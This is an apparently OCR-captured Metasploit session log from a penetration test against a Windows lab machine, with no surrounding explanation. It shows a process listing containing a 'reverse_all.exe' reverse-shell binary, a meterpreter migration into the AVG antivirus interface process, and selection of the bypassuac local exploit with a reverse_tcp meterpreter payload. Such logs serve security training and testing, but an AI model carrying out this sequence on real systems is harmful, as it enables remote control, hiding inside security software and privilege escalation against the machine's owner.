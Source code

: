 ```shell
 4     0     System
 280   4     smss.exe
 316   832   vmtoolsd.exe
 424   832   svchost.exe
 672   636   csrss.exe
 724   636   wininit.exe
 736   716   csrss.exe
 792   716   winlogon.exe
 808   3144  mmc.exe            x86   1
 832   724   services.exe
 844   724   lsass.exe
 852   724   lsm.exe
 952   832   svchost.exe
 1020  832   vmacthlp.exe
 1064  832   svchost.exe
 1076  3112  iexplore.exe       x86   1        Client-PC\Client  C:\Program Files\Internet Explorer\iexplore.exe
 1120  832   svchost.exe
 1228  832   svchost.exe
 1276  832   svchost.exe
 1412  832   svchost.exe
 1520  832   svchost.exe
 1620  832   spoolsv.exe
 1648  832   svchost.exe
 1764  832   avgwdsvcx.exe
 2028  832   VGAuthService.exe
 2168  792   taskmgr.exe        x86   1        Client-PC\Client  C:\Windows\system32\taskmgr.exe
 2352  952   WmiPrvSE.exe
 2476  832   taskhost.exe       x86   1        Client-PC\Client  C:\Windows\system32\taskhost.exe
 2484  832   dllhost.exe
 2692  832   sppsvc.exe
 2760  1076  iexplore.exe       x86   1        Client-PC\Client  C:\Program Files\Internet Explorer\iexplore.exe
 2868  832   msdtc.exe
 3088  1228  dwm.exe            x86   1        Client-PC\Client  C:\Windows\system32\Dwm.exe
 3112  3080  explorer.exe       x86   1        Client-PC\Client  C:\Windows\Explorer.EXE
 3144  952   dllhost.exe        x86   1
 3228  3112  reverse_all.exe    x86   1        Client-PC\Client  C:\Users\Client\Desktop\reverse_all.exe
 3232  3112  avgui.exe          x86   1        Client-PC\Client  C:\Program Files\AVG\Av\avgui.exe
 3296  3112  jusched.exe        x86   1        Client-PC\Client  C:\Program Files\Java\jre1.6.0\bin\jusched.exe
 3308  3112  vmtoolsd.exe       x86   1        Client-PC\Client  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 3500  3232  ctfmon.exe         x86   1        Client-PC\Client  C:\Windows\system32\ctfmon.exe
 3848  832   SearchIndexer.exe

meterpreter > migrate 3232
[*] Migrating from 3228 to 3232...
[*] Migration completed successfully.

msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac) > options

Module options (exploit/windows/local/bypassuac):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   SESSION                     yes       The session to run this module on
   TECHNIQUE  EXE              yes       Technique to use if UAC is turned off (Accepted: PSH, EXE)


```